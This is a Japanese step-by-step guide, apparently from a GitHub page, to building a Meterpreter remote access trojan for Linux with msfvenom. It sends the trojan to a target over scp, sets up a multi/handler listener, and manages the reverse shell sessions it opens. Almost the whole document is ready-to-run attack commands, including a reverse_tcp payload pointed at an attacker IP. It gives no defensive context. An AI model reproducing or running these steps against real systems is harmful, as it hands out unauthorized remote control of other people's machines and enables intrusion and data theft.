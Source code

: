 ### MeterpreterのRATファイル作成及び使用方法

以下は、Linuxターゲットに対する Meterpreter の RAT (Remote Access Trojan) ファイルの作成と使用の流れです。手順に従って実行することで、ターゲットシステムに対してリモートアクセスを確立することができます。

#### 1. RATファイルの作成
まず、`msfvenom` を使用して、ターゲットに適した Meterpreter のペイロードを含むRATファイルを作成します。この例ではLinuxターゲット用に `.elf` ファイルを作成していますが、ターゲットに応じてファイル名や拡張子を変更します。

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.99 -f elf -o meterpreter
```
- `LHOST` : 攻撃者側のIPアドレス（ここでは `10.0.0.99`）
- `-f elf` : 出力ファイル形式として ELF を指定
- `-o meterpreter` : 出力ファイル名を `meterpreter` に設定

#### 2. ファイルの権限変更
作成したRATファイルに実行権限を付与します。

```bash
chmod u+x meterpreter
```

#### 3. ファイルの転送
`scp` コマンドを使用して、作成したRATファイルをターゲットマシンに転送します。

```bash
scp meterpreter johndoe@192.168.1.3:/home/johndoe/meterpreter
```

#### 4. Metasploitの設定と起動
次に、`msfconsole` を起動して Metasploit フレームワークを設定します。

```bash
msfconsole
```

設定が完了したら、ペイロードとリスナーを設定します。

```bash
set LHOST 10.0.0.99
set payload linux/x86/meterpreter/reverse_tcp
```

続いて、`multi/handler` エクスプロイトを使用してリスナーを起動します。

```bash
use exploit/multi/handler
exploit
```

リスナーが起動すると、攻撃者のマシンで待機状態になります。

#### 5. ターゲットマシンでRATファイルを実行
ターゲットユーザーがRATファイルを実行すると、攻撃者側でセッションが開始され、Meterpreterのコンソールが表示されます。

```bash
./meterpreter
```

#### 6. Meterpreterセッションの管理
セッションをバックグラウンドで実行するには以下のコマンドを使用します。

```bash
meterpreter > background
```

現在アクティブなセッションを確認するには、次のコマンドを実行します。

```bash
sessions
```

特定のセッションに戻るには、セッションIDを指定して以下のコマンドを実行します。

```bash
sessions -i <ID>
```

これで、ターゲットシステムに対するリモート操作が可能になります。注意して操作を行ってください。
![image](https://github.com/user-attachments/assets/d29de349-fb6b-4b19-97b6-9a77b3e3f18f)

